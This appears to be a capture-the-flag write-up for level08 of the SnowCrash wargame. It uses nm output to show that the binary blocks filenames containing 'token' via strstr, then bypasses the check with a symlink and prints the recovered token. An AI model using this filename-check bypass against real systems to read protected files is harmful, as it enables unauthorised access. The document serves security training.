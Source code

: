 If we use `level08` binary to print the token it says: `You may not access 'token'`, it performs the same with any other file that contains the word `token`, if we see the functions inside the binary with `nm`:

``` shell
level08@SnowCrash:~$ nm level08 
08049f28 d _DYNAMIC
08049ff4 d _GLOBAL_OFFSET_TABLE_
0804877c R _IO_stdin_used
         w _Jv_RegisterClasses
08049f18 d __CTOR_END__
08049f14 d __CTOR_LIST__
08049f20 D __DTOR_END__
08049f1c d __DTOR_LIST__
080488d0 r __FRAME_END__
08049f24 d __JCR_END__
08049f24 d __JCR_LIST__
0804a030 A __bss_start
0804a028 D __data_start
08048730 t __do_global_ctors_aux
080484d0 t __do_global_dtors_aux
0804a02c D __dso_handle
         w __gmon_start__
08048722 T __i686.get_pc_thunk.bx
08049f14 d __init_array_end
08049f14 d __init_array_start
08048720 T __libc_csu_fini
080486b0 T __libc_csu_init
         U __libc_start_main@@GLIBC_2.0
         U __stack_chk_fail@@GLIBC_2.4
0804a030 A _edata
0804a038 A _end
0804875c T _fini
08048778 R _fp_hw
080483b4 T _init
080484a0 T _start
0804a030 b completed.6159
0804a028 W data_start
0804a034 b dtor_idx.6161
         U err@@GLIBC_2.0
         U exit@@GLIBC_2.0
08048530 t frame_dummy
08048554 T main
         U open@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U read@@GLIBC_2.0
         U strstr@@GLIBC_2.0
         U write@@GLIBC_2.0
```

The function `strstr` searches a sub-string so it will probably search in the file name. A way to access a file with another name without modify it is to create a soft link:

``` shell
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/not_nekot && ./level08 /tmp/not_nekot
quif5eloekouj29ke0vouxean
```

With the token you can access flag08
